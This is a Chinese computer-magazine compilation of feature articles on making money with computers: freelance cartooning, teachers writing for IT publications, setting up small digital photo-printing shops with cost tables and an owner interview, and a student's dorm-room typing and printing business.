我个人的漫画求生之路基本是靠自己到外投稿、等待编辑选用的模式。这种办法很大程度上耗费了我很多精力来做客户资源建立和维系工作，有时确实也对创作产生很多负面影响。比如，有的编辑会对漫画内容提出一些比较外行的修改意见，这样，我们本身就很难保证作品思想的完整性。但为了商业利益，又不得不从时间和质量上做出牺牲。对此，我个人的经验是，尽量多了解投稿媒体的风格及投稿栏目的风格，并且根据自己的了解独立进行主题策划，并且拿出方案。然后再拿着这些方案去跟该栏目的编辑进行沟通，尽可能让双方在自己完成创作之前就确认，这样不仅可以事半功倍，而且很容易做到大家都满意。

## 小回忆

## 最大的损失

做靠漫画为生的经历中，吃亏的事儿也遇到不少。如某家即将创刊的刊物约我画价值上千元的漫画，并一再声称时间急迫，出刊在即。于是乎，偶自然是快马加鞭，通宵熬夜，最终按时交上了全部作品。但数周后，竟然被告知“新刊”因故夭折……而偶的稿费也是无了着落，无法要回，不小的损失。但正所谓吃一堑，长一智，经验是另外一种宝贵的财富。

目前，国内自由漫画从业者的收入水平差别很大。一幅漫画基本上价格在50 ~ 100之间，而四格漫画基本上价格在200以上，所以根据每个月的业务量，六七百、一两千、几千的都有。再看自由漫画作者这类，最主要的收入阵地，是专业的漫画杂志，因为他们需求的稿件量大，而且稳定。只要在两家杂志分别有个几版的栏目，基本生活就可以保证。目前国内主流的这类刊物有《幽默大师》、《漫画Party》、《漫画月刊》、《漫友》等。其次出版社也是重要的客户。

## 苏黎制作的新年贺卡

数字手绘板是必须的吗？目前漫画投稿都采用E-mail，因此无论前期绘画的过程怎么样，最后都得把最终稿件转化成数字图片文件。这个过程有两个方法可以实现，一是传统纸面手绘后再数字化；二是直接数字无纸化手绘。我是直接用数字手绘板在电脑上绘制漫画。它不仅可以大大提高工作效率，还可以降低创作成本（免去了购买画笔、画纸、颜料和扫描仪的投入）。不过作为初手，刚开始可能对数位化绘制感觉很难适应，因为数字手绘板的手感与真实的纸笔还是有很明显的差别的。但一旦熟练，所带来的效率就是诱人的。这个熟悉的时间，我差不多用了一两个月。



## 漫画职业人的未来

目前中国做漫画插图的自由职业者可以说千千万万，但真正发展得不错的，往往是同时擅长绘画与商业营销的“双节棍”选手。不过要让每一个画手都再成为营销高手，实在是有不小的难度。实际上，在国外成熟的体系下有漫画插画经纪人、艺术经纪公司这样的角色，来专门解决营销的问题，这样画手就可以专心于绘画创作了。这才是一种成熟细化分工的状态。可惜的是，国内目前很缺乏这样的专业机构，而且漫画职业人本身的观念也有待“升级”。不过，国内也开始涌现了这样的团队，如“华人视觉精英在线插画超市 http://www.86image.com”这样的代理网站。

我个人认为，销售和创作一肩挑的模式虽然帮助我成功了，但实际上这并不是一个完美方式。如果让我选，我期待那种能专心于创作就能得到丰厚报酬的职业模式。当然，我一定会坚持自由职业之路！（苏黎）

## 活跃在IT撰稿人中的孩子们王们

他们经常出没于网络与媒体之间，或桀骜不驯，或默默无闻；他们的言论经常活跃在各大网站的BBS和论坛，或嬉笑怒骂，或凝重深沉。提起他们，经常看IT类报刊的读者可能见过他们的名字（大多用的是笔名）。不仅如此，他们还有一些共性：

- 1. 都当过计算机老师，正在学校里扮演着“教书匠”的角色；
- 2. 对计算机技术的热爱是发烧一族的，爱研究、肯钻研是他们的特点，经常努力工作到三更半夜；
- 3. 都是IT写手，不仅关注教学，也把教学中所得的经验、体会及技术写出来，通过媒体的传播，让更多人了解和享用；
- 4. 都曾经历过“投稿不中→小豆腐块→单页文章→专版或专栏”，最后收获成就感这样一个过程。

小编有话说：在我们的作者队伍中，确有不少在职教师或有过教师从业经验的。正是教师的经历，让他们具备了将知识点用通俗易懂的语言、形象的描述或者比喻的形式来行文的技巧，而这正是我们《电脑爱好者》对稿件基本要求之一。

## 四位IT撰稿教师的武林秘史

## 1. 天涯明月刀

个人档案
年龄：30岁
职业：中学信息技术教师
写作特点：写作思路比较有创意，灵感来得很快。IT写作主要方向是一些设计类的稿件，比如Photoshop、3D设计制作一类。
创作历程：他所在的中学位于东北一个靠近朝鲜的小县城。接触IT业不算久，但在业余撰稿人中以“拼命三郎”著称。勤奋与工作效率是他的特长，最快的时候一周写了五篇稿子，并且都已发表。就写作速度而言，他已经接近于专业撰稿人的水准了。



虽然地处偏僻，但强烈的爱好和不断地努力使他不仅在计算机的教学工作中游刃有余，而且很快成为县城的电脑高手。随着自己的稿件不断在各个电脑刊物上发表，他的名气也不仅仅局限于身边的圈子。附近很多机关、企业有解决不了的问题，都会找他帮忙。因此，电脑和撰稿时常让他感到自豪和莫大的成就感。

## 2. 九头鸟

个人档案
年龄：29岁
职业：中学电教工作
写作特点：注重资料和选题收集，擅长深度发掘别人做过的选题。通过自己丰富的知识和实际经验，用新的视角和表现手法赋予“老选题”新的看点。
创作历程：出生于江苏一个较为发达的城市。学的并不是计算机专业，毕业后被分配到本市最偏远的一所中学任教。1996年开始负责学校的电教工作。每天除自己应上的课程和应做工作外，他就把自己关在机房内学习电脑。1999年6月，他用自己省吃俭用的钱买回了自己的第一台电脑。每逢双休日，就到各大书店购买各类计算机书籍、杂志，刻苦钻研电脑知识，常常熬到深



## 3. 清风

年龄：26岁

职业：私立学校任小学信息技术教师和学校网络管理员

写作特点：由于是计算机专业毕业，有较深厚的编程基础和理论基础，因此稿件质量都很高，往往被一些媒体用作头版或热点话题。

清风的写稿历史将近三年。由于是计算机专业毕业，出稿率虽然赶不上前面两位，但录用率和稿件级别明显高一等。对于写稿，清风更多是作为一种爱好、一种休闲。每天下班后开始上网，一直到晚间十点左右。上网时一般会同时挂上QQ、MSN和雅虎通，作为与外界沟通和联系的工具（这些工具不仅为他提供了和编辑不断探讨文章行文风格、技术问题的途径，也能让他能借助“外脑”从其他高手朋友那里得到更加丰富的素材）。此外，双休日往往是一边上网一边写稿子。清闲时偶尔也在网上聊聊天，去联众下象棋，打够级。

## 4. goldapple

年龄：31岁

职业：小学任教计算机教师

写作特点：IT从业经验丰富，了解最终用户实际需求，知识面广，能针对软、硬、网和设计这几个密切相关的内容，做应用类稿件的有机整合。属于高产作者。

创作历程：写稿史最短，还不到一年，但从事IT行业时间最长。1991年起学习电脑，1995年就有了自己的电脑。经历较为丰富，开过电脑公司、做过销售代理，也开过网吧和电脑游戏厅，“goldapple”就是他以前公司“金苹果”的英文名字。但他的正式身份却是小学教师，电脑公司倒闭后，专心投入到信息技术教学中。

他写稿子也是一次偶然中开始的，最初的目的就是为评职称。于是向一些IT教育类的报刊投了几篇稿子，结果出乎意料地都中了。或许是厚积薄发吧，从此就一发而不可收拾。Goldapple写稿子范围很广，软件、硬件、网络、设计类的稿子都能写。在不停的笔耕中，把自己的经验和技术变成铅字或者投入到网络，从中也找到了快乐和满足，这可能和他以前的丰富从业经历有关吧！

## 进入途径一：自己开家‘数码冲印杂货铺’

### ‘数码冲印杂货铺’做什么？

数码冲印是目前很热门的行业，但也是投资大、竞争激烈的行业。真正意义上的那种和柯达、富士冲印店类似的数码冲印店，其投资动则数十万到一百多万，进入门槛实在太高。不过，数码冲印的概念毕竟不同于传统的银盐胶卷冲印，它有很多灵活多变的形式，一些真正能体现个性化的数码冲印项目，并不是所有大型冲印店都有能力或兴趣去完全涵盖的。

所以在数码冲印这个行业，小投资也有小投资的活法。充分利用电脑和照片打印机、刻录机等设备，就能在这个大行业中站稳脚步。其业务范围可以涉足：数码照片的打印（尤其是中等幅面的照片）、个性化的体恤衫、马克杯、大头贴、个性化相框、个性化光盘封面/盘面制作……

## 自由撰稿人的收入支配

由于稿费具体数目属于个人隐私，因此也不便公开。但发表作品多了，稿费也自然比较丰盈。与其他电脑迷一样，他们获得的稿费很大一部分开支就是更换电脑设备，这也是一种投资。电脑频繁更新、升级是少不了的，由于IT业发展迅速，只有不断更新自己的知识才能跟上时代的需求。于是为了提高自己的能力和写作范围，一般都把稿费收入的50%用在购买参考资料以及配置必要的外部设备上。一般家里都有两台电脑，一台用来写稿、一台用来搞设计或者做研究。其余就是添置数码相机、扫描仪、打印机以及光盘刻录机和视频采集卡等。当然除了这些设备除了个人爱好之外，也是为了方便写稿。

小编有话说：在撰稿人的设备中，除了电脑是必需的之外，如果经济允许的话，一台数码相机一定会为提高你的稿件录用率起到不小的作用。尤其是以硬件选题写作见长的作者，一台数码相机把产品和操作的步骤拍摄下来，用图片说话，不仅生动而且事半功倍。图片的稿费各个报刊不一样，我们《电脑爱好者》采用的图片是按照占用文字面积的字数来计算的。

稿费除了花在购置设备外，还用在日常生活的花销上，如通讯费、家里的各项开销等。他们说有一部属于自己的车是最大的梦想，估计不久就会实现这一愿望。这样就可以让自己和家人过得都舒适一点，这是最务实的想法了。

## 对业余撰稿人的一些忠告

### 干好本职工作 写作精益求精

笔者与这四位教师作者交流的时候，不止一次谈到对待业余写作的态度问题。作为教师，答疑解惑、传道授业本身就是自己的神圣使命。从事IT撰稿大部分是兴趣驱使，但也必然涉及到经济收入。在这个过程中，一定要时刻认识到自己的主要身份是一名教师，一切稿件的处理都应该在不影响本职工作的情况下展开。另外，发表稿件也是‘教书育人’的一种形式。而且，这种形式由于受众面更佳的广泛，产生的社会影响力也更大，因此肩负的责任也更重。所以，稿件一定要在内容、技术和文字上精益求精，绝不能‘丢了咱教师的脸’啊！其实，这两点不光是‘教师撰稿人’必须重视的问题，所有业余撰稿人都应该遵守这个原则。

### ‘数码冲印杂货铺’的搭建

‘数码冲印杂货铺’的最大优势就是投资小。

一台电脑是必不可少的，目前价格4000～6000元左右的电脑足以应付所有数码冲印业务的需求；最好购买一台A3+甚至更大幅面的照片打印机，用于大幅面照片的打印（可以用来制作挂画、挂历甚至婚纱照等），如爱普生的Stylus PRO 4000（见图1左，13000元左右）；再购买一台不开机就能打印照片的高速数码照片打印机，如爱普生的Stylus Photo R310（见图1右，价格约1800元），专门用来打印小尺寸照片和大头贴那些小东西；为了翻印相片，还必须购买一台至少2400dpi、带底片扫描功能的扫描仪，比如爱普生Perfection 2480 photo，价格约1500元；此外，配一台塑封机用来制作证件卡，价格在500元以内；再有就是准备一个微波炉用来做马克杯、一个电熨斗用来做体恤衫，这两项投资不到1000元。

如果还要制作证件照，可以购买一台数码相机。推荐使用佳能EOS 300D，套机价格6000元出头。毕竟它是一台单反数码相机，既可以拍出不错的照片，也不至于让你的店太掉档次；当然，还要配一个闪光灯、摄影灯和反光板，这些加起来3000元之内就能拿下。以上就是一套完整的“数码冲印杂货铺”的设备，总预算在30000元以内。

### “数码冲印杂货铺”的业务状况

为了解这个进入门槛比较低的数码业务模式，记者采访了北京市朝阳区一个居民楼一层临街的一个数码店（该店业主姓李），让他向我们讲述一下他的数码创业情况。

> 记者：你开这家数码店多久了？
> 李先生：2002年10月份开始的，到现在也有2年多了。
> 记者：经营情况如何，赚钱吗？
> 李先生：说实话，如果光是靠做照片打印、做体恤衫、大头贴什么的，还真是比较难。刚开始的时候我也是很“老实”地经营这些，结果做了三个多月都是不能保本，连我和老婆的饭钱都挣不回来。
> 记者：为什么呢？
> 李先生：主要还是这个地段不临大街，只能“吃”附近小区年轻人的钱。还有就是2002年那会儿知道数码的人还是不多。
> 记者：后来呢？
> 李先生：后来嘛，我就开始卖胶卷、卖相框、卖装饰画什么的，这些东西利润虽然薄一些，但业务量比较有保障。再后来，来打大头贴之类小玩意儿的年轻人越来越多，打照片的也开始有起色，现在基本上能维持下去了。
> 记者：那你现在收回投资了吗？
> 李先生：差不多了吧，2003年春节过后每个月就开始有点盈余了。具体细帐我也没太算得清楚，但到今年肯定是回本了。效益嘛，2003年差一些，2004年一年下来平均2000~3000元左右的月纯收入还是有的，也就是能过得下去而已。还是比较苦的，主要是光顾的顾客不够多。
> 记者：有什么打算吗？比如迁到繁华地段什么的？
> 李先生：嗯，这个目前还没有。呵呵，毕竟要花钱，还有风险啊。我现在都是附近的老顾客在撑着，搬了租金肯定高不少，老顾客又得丢掉重来，风险大，现在还不好承受。将来手头再富余一些可以考虑，但不是现在。
> 记者：目前我们的读者中也有不少想开个自己的数码店做老板，你对即将进入这行的朋友们，有什么忠告吗？
> 李先生：忠告嘛……其实干这个行当我始终觉得还是能赚到钱的，就是脑子还是得活一些，多想一些客户需求。另外，现在的社区大部分（记者注：他专指北京新建的住宅小区）都有业主论坛，我现在隔三差五都在那上面贴些照片什么，做变相广告宣传，嘿嘿……另外，我很后悔当初选定了这个比较老的居民社区，这里消费能力还是比较差，建议大家以后能在选址的时候多考察一下。
> 还有就是，购买设备最好一次到位，别图最初轻松些就凑合着开张。留住一个客户不容易，他的一个要求你不能满足，以后很可能都不会再来了。当初我就是图省钱没有买数码相机和塑封机，结果错过了不少做证件照和证件的客户。
> 还有一点就是，不少追求完美效果的客户看不上外面那些大型冲印店那种毫无区别的对待的统一冲印方式，也不满意他们冲印出来的效果，所以才会选择我们这样的小店。所以，要想留住这种客户，就要舍得花时间花精力去为他们做耐心的设计和修改，因此必须要很熟悉Photoshop软件的使用。
> 别的话，没了。
> 记者：谢谢你，谢谢你对我们读者的提醒。祝你生意兴隆，财源滚滚！
> 李先生：也谢谢你！

| 服务内容分类 | 平均成本 | 平均价格 | 月销量 | 月利润 | 年利润 |
|--------------|----------|----------|--------|--------|--------|
| 证件照、照片索引、套装照片 | 1.69 | 15 | 130 | 1730 | 20760 |
| 数码冲印、光盘刻录打印 | 2.73 | 3 | 150 | 41 | 492 |
| 照片放大、主题快乐印 | 14.42 | 34 | 55 | 1077 | 12924 |
| 台历、名片、贺卡、贴纸 | 13.86 | 27 | 85 | 1117 | 13404 |
| 挂历、签名绸、聚会横幅、聚会海报 | 38.94 | 84 | 20 | 901 | 10812 |
| 照片修复 | 3.63 | 92 | 20 | 1767 | 21204 |
| 总计 | - | - | 460 | 6633 | 79596 |
| 原始投资 | - | - | - | - | 65000 |
| 投资回收10个月 | - | - | - | - | - |

## 学习中创作 创作中学习

我身边有不少人，他们的文字功底不错，电脑技术也掌握到了一定的程度。但一提到写稿子，立刻就有一种畏惧感——觉得自己不是真正的高手，水平还不够，应该等把一切都学好学精通了之后再写稿。其实，这是大大的误区，很多作者并不见得就是‘高手’或‘专家’！之所以成功，是因为他们‘边学习边创新边写作’。而不是等到一切都精通了之后，再去创新和写作。他们写作的过程，不仅仅是创新过程，同时也是自我学习的过程。他们在写稿时面对写作的对象，往往也是在学习中，写出来的东西真正切中了读者的需求。

### 小编有话说

这里透露一个小秘密——《电脑爱好者》每期都有一篇‘软件你别牛’的文章，专门介绍一些专业软件的应用技巧。但写这些文章的作者，却基本上是我们精心挑选的‘二把刀’（即一知半解的所谓‘半吊水’）作者！比如上期的《六大任务玩转AutoCAD》，这篇文章的作者就是我们的一个编辑，他对AutoCAD的了解和掌握程度绝对算不上专业。但他对这个软件却有着浓厚的兴趣，而且通过一些能与现实我们生活相联系的切入点来写作，所以通过努力，也做出了不错的文章。

### 勤写稿 更要精于‘修稿’

谈起投稿经历，我们几个交流下来，都发觉投稿后，按照编辑的要求修改稿子是非常难的事情。首先是舍不得改——所谓‘敝帚自珍’嘛，毕竟自己花了老大的心思写出来。虽然我们几个都有过和编辑‘斗争’，最后获胜的‘战绩’。但通常编辑要求修改，尽心尽力，还要保证时间达到要求是稿件被最终录用的必要条件。这其实也是很多业余撰稿人，尤其是第一次写作的人难以接受，最后导致就此止步的问题。

小编有话说：以小编长期以来录用稿件和与作者交流的心得，我个人下面这个公式是一个撰稿人成功的经验：一篇精彩的稿件=浓厚的兴趣+创作的激情+学习的干劲+流畅的行文+默契的沟通。

编后：这篇文章介绍的是教师的IT撰稿经历，其实他们的心得同样适用于所有撰稿人或者准撰稿人。从事写作，如果成功，也能给自己带来不错的经济效益。就我们的稿酬标准（每千字100～150元，优秀稿件甚至高达200元以上），不少成功作者通过一篇2～3页的文章每期（我们是半月刊）就能获得400～600元不等的报酬；如果是做一个专题，甚至可以拿到1000～2000元的稿酬！当然，这样的机会并不多，但它是无上的荣耀，这不光是钱的问题！

最后，做一下免费广告：《电脑爱好者》是一本面向初中级电脑用户的刊物，用‘非专家’的眼光来审视自己的写作内容，把自己拉回到对一个技术、对一种应用、对一个产品完全不懂或者似懂非懂的状态，用自己当时的需求作为读者的需求来进行写作，甚至连文字风格也要考虑进去，这样，才有可能成为我们的‘常客’！

（山东 王伟光）

## 进入途径二：爱普生/乐凯“数码快乐印”店中店

像上面介绍的“数码冲印杂货铺”，受资金和形象的影响，业务开展起来确实有一定困难。那么还有什么形式可以进入数码店这个行业呢？当然有，爱普生/乐凯“数码快乐印”店中店就是其中一种。

### 什么是“数码快乐印”店中店？

“数码快乐印”店中店的主要方式是由爱普生提供数码设备，乐凯提供营业场所和部分耗材，双方共同做加盟者技术支持、人员培训，并以统一的店面形象和经营模式开展的一种数码冲印业务模式。只要购买相应的设备，并且将来固定向EPSON和乐凯购买墨盒、相纸等耗材，就能在全国所有乐凯冲印店内开一个专做数码冲印的“店中店”。

### “数码快乐印”店中店的优势

加入这种“数码快乐印”店中店的优势是，乐凯冲印店本身就拥有店面和固定的客源。而且其店面选址早就经过了精心的考证，大多位于比较“当道”的黄金地段，所以不仅省却了店面选址的苦恼，还能节省不少店面租金。只要购买设备（其实也就是一台电脑、一台带有底片扫描功能的高分辨率扫描仪、大幅面喷绘机以及一些像刻录机、多功能读卡器、塑封机之类的辅助设备），进行简单的培训就能立即上岗营业。而且，由于主营项目是现有店面设备难以完成的超过7寸的大幅面照片，以及各种传统冲印难以完成的个性化照片输出，因此，也不存在和原店面“抢生意”的情况出现。同时，由于双方合作带来优势互补的经营局面，对于周边其他各种大小冲印店“钻空子”抢客源也具有很好的抑制效应，可以说是一举多得。

### “数码快乐印”店中店的成本核算

附表是爱普生公司提供的一个投资预算表，其中投资部分是以中档组合加一台电脑及其他辅助设备为准来计算的。通过对三家“数码快乐印”加盟业者的实际采访，我们发现，原始设备投资的金额其实要低于这个预算4000~10000元不等。但是，部分业务的实际发生情况也并不像表中所列示的那样，比如，像照片修复、横幅和海报这样的高利润业务，实际业务量并不多；而贺卡、贴纸、光盘打印、证件照这样的低利润、低成本业务量却远大于预计。另外，由于他们采用了乐凯提供的相纸，其成本比爱普生的相纸要低，所以整体经营情况虽然不像预期的那么乐观，但业务也还是基本上能维持。

## 进入途径三：大投资 开真正的数码冲印连锁店

走到这一步，首先需要的是胆量，然后才是资金。因为目前真正形成规模的数码冲印连锁店，就是柯达和富士两家。以柯达为例，它的冲印店也是有级别之分的，投资金额通常为20万~150万不等。而且，很多低成本的投资需要传统冲印设备作为支持，所以，实际投资额度也是不菲。

有稳定、巨大的业务量支撑，要想把这个冲印店经营下去是非常困难的。

关于这个，我们就不具体介绍了。柯达和富士公司都有专门的培训机构，可以免费去听他们的创业指导课程，了解具体的细节。详情访问他们各自的网站：www.kodak.com.cn 和 www.fujifilm.com.cn。

编后：数码冲印并不是什么新奇的行业，随着柯达和富士两大传统胶卷厂商全力扑到这个领域掘金，实际上它早就已经快速度过过渡期而进入到应用期了。但是，大型冲印店并不是万能的，他们的服务更多的是针对效率更高的“傻瓜化冲印”。因此，高举个性化大旗，用周到的服务和精湛的技术提高顾客满意度，即使是小投入，也一样能在这个行业里面求得一片生存的空间。

（北京 酸菜鱼）

## 象牙塔中“钻钱眼”

故事主人公叫聂晓鹏（化名，下面简称小聂），目前在一家IT产品销售公司的市场部从事市场推广工作。一次偶然的机会，我们谈到了目前大学生就业难的问题。我俩观点有很大的不同，但是在有一点上还是达成了高度的共识，那就是——在大学上学期间，应该尽可能地尝试一些社会就业或者创业的经验，并且有意识地形成一定的经济头脑。

讨论中，小聂对此非常感慨。他说，他从大学一年级就开始帮人打零工，二年级就开始在校园里面自己开了个“作坊”当老板挣钱。个中的酸甜苦辣，令小聂现在回忆起来依然津津乐道。于是，记者对他进行了一次实地采访。

### 一个追求物质享受的学生

记者：虽然现在在校期间出来打工的学生不少，但大多数大学生还是选择向家里伸手要钱。你是为什么选择“自力更生”的呢？是因为家境不太好的缘故吗？
小聂：不是，不是，完全不是！
我是独子，家里也并不穷，甚至可以算得上超过了小康。因为我妈开了一家规模不大不小的毛衣针织厂，老爸是个公务员。我家是我妈“管家”，可能是由于做生意的缘故吧，养成每一笔支出她都要“落到实处”的习惯。所以，从小老爸老妈都不吝惜给我买东西，不过，却很少给我钱。大部分现金都靠洗碗、扫地这些家务活挣来的。在家的时候基本上要什么都能得到，有没有现金倒也没觉得什么。后来，来北京之后，花钱的地方多了，慢慢就开始觉得不方便了。因为老妈老是追问我要钱去都花在什么上面了，这一点我很受不了。再说了，这人大了些了，想得复杂了，有些钱的去向也不想跟老妈汇报了。

记者：嘿嘿，你是指交女朋友吧？
小聂：是，是……我大一下半年就和一个法语系的MM“来了电”，也算早恋吧。这之后，买花、请吃饭、看电影、听演唱会什么的，花销一下子大了好多。这样一来，老妈疑心更重了。后来，我看同班好几个贫困学生都靠打工解决自己的生活问题，于是，我就决定也去试试。

记者：哦，原来如此。那你这也算是“为了追求物质享受，毅然打工了吧？”呵呵……
小聂：是啊，是啊。不过那时候我的基本生活还是有保障的，挣的都是自己的零花钱。

记者：那你选择的是哪个行业呢？
小聂：我们学校是北京一所很专业的语言学校，学生一小半是外国人，学校的黑板报上、宿舍楼道口都有不少老外找“对练”的小广告，所以就选择先给老外补习中文口语。这个活其实很容易，不少老外都比较舍得给钱，而且大部分都是在外出游玩的过程中边玩边学，自己还可以练英语口语，简直是一举三得，爽得很啊。
另外，偶尔有些公司搞活动找一些“站桩的”（就是活动现场的服务员之类的），我也去。

记者：那你这样打工赚来的钱够你零花吗？
小聂：这种零工都是按小时论价的，一个小时最少也有25元，一个月基本上能保证有500元以上的收入。加上家里给的定额生活费，“小日子”基本上是过得比较舒坦了。

### 一不小心就创业了！

记者：既然你最初的目的是寻求经济上的自由度，而且挣的钱也足够你花销了，那后来为什么还要去搞“创业”呢？
小聂：（不好意思地）嘿嘿……首先申明，其实那哪算得上创业啊，也就是瞎胡闹。
是这样的，大一结束的那个暑假，我决定体验一回自由人生，于是编了个借口没回家。白天在电脑城找了个卖“本”（笔记本电脑）的公司给人当促销员（这儿叫“掮客”，任务就是拉过路的时候往店里张望的人进去看“本”），晚饭后用两个小时教老外学中文。由于MM回家了，花销一下子少多了，一个多月下来，居然攒了1000多块钱。再加上顺便向家里要来的“体验生活费”，一共有3000多元！说实话，这是我一生中第一次手里攥着这么多钞票呢！
记者：哦，这就算是原始资本积累了吧？
小聂：什么“资本”啊！这钱原本是打算等开学了，MM回来之后跟她好好“挥霍”一把的。谁知道，MM暑假回家，被她妈发现了我们两个的合影，人家报到的时候她老妈陪着来找我，声色俱厉地警告我们不准再接触了，否则就告到学校去。MM比较老实、传统，这一段感情就这么“破灭”了。于是这笔钱就存了下来。
不过，虽然“原动力”不存在了，但我的打工习惯已经养成了。反而因为没有那么大的花销后，积蓄还在轻微上涨。

记者：说正题吧，你是怎么开始当小老板的呢？
小聂：是这样，我们同室有一个贫困生，他基本上是什么都干。有一次他拿回来厚厚一叠纸，说是一个应届生让他把论文给输入到电脑中，还要排好版。他没有电脑，又舍不得去网吧上机，就想等我晚上睡了借我的笔记本电脑来录入。因为他比较艰苦但又很刻苦的缘故吧，大家平时都很照顾他，而且又不影响我使用电脑，我就答应了。几天后，他居然说请我吃饭。本来怕他破费，但他挺诚恳的，就跟他去食堂小炒了一个回锅肉、要了一个番茄鸡蛋汤。他说，多谢我借电脑给他，他才能赚到那100多元的录入和排版费。
出于好奇，我就问他这样的活儿是不是很多。他说，那段时间毕业生正好开始写论文了，很多没有电脑的同学都要打印，还有一些同学虽然有电脑，但不会排版。而且，先后有好几个同学都找他录入，但他没有电脑干不了。他还说，我那台笔记本电脑不够顺手，要是用台式机，同样的时间能接两个这样的活，一个月的饭钱就有了。他还不无遗憾地说，要能有台电脑，这段时间辛苦一下，足够他半年的伙食费。

记者：哦，原来是这么发现商机的。那接下来呢？
小聂：直觉告诉我这个“生意”完全可行。于是我就跟他商量说，我准备给他“投资”买电脑，但条件是他拉来的“业务”分我一部分，而且他做的那部分我也抽一部分成。他一听相当兴奋，当场就同意入伙。
记者：呵呵，你可真行啊，蛮有商业头脑和手段的嘛！
小聂：咳，当时也没想那么多，就是一种很“天然”的想法。不过后来还是惹出来一些闲言闲语，这是后话啦。

接下来，我在学校的BBS和宿舍楼道里的帖子上收集卖二手电脑的信息，最后花820元买了台二手电脑。事后和卖这台电脑的学长聊天才知道，这台电脑据说至少已经被三次转手，而且他就是个在学校内部倒卖二手电脑的“专业户”！
记者：啊，校园里居然还有靠这个赚钱的？！
小聂：是啊，我也没想到，据说都是快毕业的学生处理给新生。这台电脑很破，好在我们在宿舍干活，不在乎“门脸”。于是他负责联系“业务”，我们两个就开始干起来了。

### 当老板并不比打工轻松愉快

记者：当起了老板，那你还去干“对练”的“老本行”吗？
小聂：刚开始还是做，毕竟那个比较轻松愉快。不过，后来情况发生一些变化之后，我也就不做了。
记者：哦，什么情况变化？“业务扩张”了？
小聂：是啊，后来，好几个来录入的“客户同学”都说，你们要是能打印出来就更省事了，如果还能复印就更好了。我一想也是，有电脑的同学不少，但打印机和复印机可没人有。于是我专门去学校里的复印店打听了一下打印和复印的价格，还专门“监视”了他们的“业务量”。结果发现，确实如同学们所说，这两项的量远远超过输入和排版。于是我很兴奋地找我那个“合伙人”，商量要不要再买一台二手激光打印机和复印机。我的提议把他吓得够呛，他说他只是想挣点生活费，没想过挣大钱，也没有钱拿出来买机器。而且他也怕在宿舍里面搞得太过火了学校要干预。

记者：哦，开始遇到投资决策和股东利益问题了，那后来呢？你是怎么说服他的呢？
小聂：说服，没有，我没能说服他。他很坚决地说，如果我自己掏钱买他不反对。后来我就干脆跟他说，要不你也别“投资”了，反正你就有活就干，不管赚多赚少，我每月给你500元钱得了。他想也没想居然就同意了。为此，我还嘲笑他没有投资意识好长一段时间呢。
记者：啊，原来如此，合伙人成了打工仔了？那你后来买打印机和复印机了吗？
小聂：买了，不过这次在学校的BBS上可没这些玩意儿。我跑了中关村电脑市场和好几个旧货市场，都没有价格合适的。后来大老远从西边（学校在北京西北角）跑到东边的一个叫双龙的旧货市场，淘来了这两个东西（那里居然连投影机都有卖），一共花了2400元钱。但是，回来之后，光是换两个东西的硒鼓就又花了1200元钱。

记者：规模扩大了，收入增加了吗？当老板很辛苦吧？
小聂：说实话，如果给我一个重来一次的机会，我一定会选择——不扩张！自己当“老板”太烦心啦。
记者：哦？都有什么不顺心的呢？是学校有意见吗？
小聂：学校一直不知道，倒也没什么。就是干的活多了之后，室友的意见很大，尤其是买了打印机和复印机之后。因为这两个机器“开干”之后都会产生臭氧，搞得屋子里面很臭，而且臭氧有毒，另外两个室友就开始有意见了。后来为了平息室友的怒火，我又买了一台臭氧净化器，还承诺每月请他们吃一顿不下100元的“大餐”，每星期请他们吃一顿50元的“小餐”，这才算风平浪静了。其实，真正算上成本、维护费用和“贿赂”室友，也没剩几个钱。尤其那两台老爷机三天两头都要修，实在是不胜其烦。

记者：除了这些呢？有没有别的同学对你有什么非议？
小聂：哎，当然有啦。主要是两方面，就是说我不务正业，太钻钱眼儿了。其实我...挣钱虽然确实是为了满足物质需求，但绝没有因此荒废学业，我从来就没有旷过一门课！而且我至今都觉得靠劳动挣钱没什么可耻的，完全没有必要把自己那么明确地定位成所谓的“读书人”，反正早晚都要走进这个商业化的社会，会变成“商业人”、“经济人”。只不过，在学校这个场所里面搞这些东西，现在想起来确实还是有些过分了，违法经营啊，呵呵……

我最后悔的，还是同学们纷纷指责我剥削贫困同学。虽然他本人一直没有任何怨言，但事情结果确实是这样的，到现在我都觉得有点对不住那位同学。虽然我在学校搞这些事情挣钱，但实际上最后算下来，并没有什么盈余。那段时间我买过MP3、游戏机和数码相机，不过买这些东西的钱中也有向家里要来的。最后结束“生意”的时候，兜里也不过就2000多元钱而已。为了这点钱，把自己的形象和名声都给搭进去了，很不值得啊。

> 记者：那么，后来你是怎么结束掉这个生意的呢？

> 小聂：这是必然的。到大三下半年的时候，自己觉得学习的压力、同学的鄙视、维持这个生意的压力都很大，而且自己又再次恋爱了，时间和精力实在不足以继续支撑了，于是很自然地萌生了结束的念头。不过，自己苦苦经营了这么长时间，也倾注了那么多心血，多少都有一些迷茫。于是，我把这事和我的困惑向我老爸老妈进行了一次彻底的坦白。

结果嘛，可想而知，老爸劈头盖脸把我臭骂了一通，严令我立刻结束，否则就要杀到北京来监督执行了。倒是我老妈知道做生意的艰辛，在批评之后也肯定了我干这个事情对将来从业的积极意义。于是，在大三结束的时候，我卖掉了所有设备，只是把那台电脑留给了我的“合伙人”，算是对自己良心的一点安慰吧。

就这样，我结束了自己的这次并不十分光彩的“创业”。当我就业之后，对所有工作都考虑得比较周全，这都得益于当时形成的一些习惯。也算是一个收获吧。

> 编后：学生打工，早已被社会和象牙塔所接受和理解了，但学生创业，依然是一个很惹非议的话题。尤其是像文中的主人公，他选择在校园内、宿舍里作为赚钱的场所，实在是很难被同学、老师、学校和社会接受。我们鼓励大学生尝试各种就业和创业的体验，但校园还是一个读书的场所，你有义务为同学们创造一个清静的环境，别忘了！
(Andy@CFan)

## 如何赚钱

我赚钱的途径正是提供免费服务，主要有免费BBS论坛、免费留言本、免费计数器和统计等几个项目，其中免费BBS论坛是主打。因为我发现有很多新手或单位在创立网站时都很茫然，所用的投资也很有限，但他们希望得到一个功能很完整的网站。这就需要不菲的投资。例如以现在的学生个人网站来说，他们建站所使用的大多是免费或纯HTML静态空间。这样要么免费空间很不稳定，随时有关闭的危险，要么静态空间不支持ASP/PHP等动态技术，要实现一些留言本、论坛就必须购买动态空间。但动态空间的价格都较高，支持50人在线的100MB ASP空间一年使用费在150~200元之间，对于普通个人来说还是比较难以承受的。这就是我提供免费BBS的吸引人之处，只要用户申请，不要一分钱就可以从我这里得到一个功能全面的论坛。

